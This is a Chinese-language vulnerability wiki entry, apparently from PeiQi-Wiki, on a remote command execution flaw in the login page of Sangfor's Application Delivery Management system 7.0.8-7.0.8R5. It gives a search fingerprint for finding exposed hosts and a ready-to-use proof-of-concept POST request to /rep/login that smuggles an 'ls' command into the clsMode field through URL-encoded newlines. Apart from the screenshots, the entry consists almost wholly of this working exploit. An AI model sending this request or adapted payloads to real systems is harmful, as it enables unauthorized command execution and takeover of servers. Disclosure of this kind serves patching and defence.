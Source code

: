 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>深信服 应用交付管理系统 7.0.8-7.0.8R5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>fid="iaytNA57019/kADk8Nev7g=="</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1675307887742-7f1d91ab-0fc3-4b09-b434-70466ec13871.png)

验证POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![img](/assets/PeiQi-Wiki/img/1675307928621-8722e4f7-ddd8-44ee-9010-4f9189a12081.png)